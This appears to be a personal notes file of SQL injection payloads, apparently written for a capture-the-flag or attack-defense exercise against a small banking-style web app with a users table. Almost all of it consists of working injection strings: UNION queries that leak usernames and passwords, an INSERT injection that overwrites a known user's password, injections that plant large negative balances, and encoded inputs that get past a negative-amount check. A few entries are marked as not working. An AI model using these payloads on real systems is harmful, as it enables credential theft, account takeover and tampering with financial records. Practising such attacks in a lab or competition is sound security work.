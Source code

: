 ### PAYLOADS

### DATA PAYLOADS 

# negative value in value

# negative value in value with - encoded


### SQL PAYLOADS
## EXPLOIT SELECT

## Leak all users password (REMEMBER SPACE AFTER DOUBLE DASH)
' union select 1,2,pass from users;-- 

## Leak all usernames (REMEMBER SPACE AFTER DOUBLE DASH)
' union select 1,2,user from users;-- 

## Leak all usernames and password sorted (REMEMBER SPACE AFTER DOUBLE DASH, passwords are in wrong order, in balance)
' union select user,2,user from users union select 5,5,5 union select user,4,pass from users;-- 
' union (select user,2,user from users order by user) union select 5,5,5 union (select user,4,pass from users order by user);-- 


## EXPLOIT INSERT

## Leak password for known user (in user) #NOT WORKING
' AND (IF((SELECT P.pass FROM (select pass from users WHERE user = "aaa") as P) = "aa", sleep(10), select pass from users WHERE user = "aaa")) AND '

## Change password for known user (in register user)
notluca', 'dumbwhosreading'), ('kate', 'salvino') ON DUPLICATE KEY UPDATE pass='salvino';--%20

## DELETE ALL USERS #NOT WORKING
' AND (IF((DELETE FROM users) = "aa", sleep(10), 0)) AND '

## Make an user povero (in deposit) (if original users must be kept then this should work) (register an user luca before)
luca', 100), ('kate', -1000000);--%20

## Bypass - check (in amount of deposit) -400 000 000
'+char(45,52,48,48,48,48,48,48,48,48)+'

## Bypass - check (in amount of deposit) -8 000 000
%2D%38%30%30%30%30%30%30

## Delete all users
Not possible aot

## Drop all tables
Not possible aot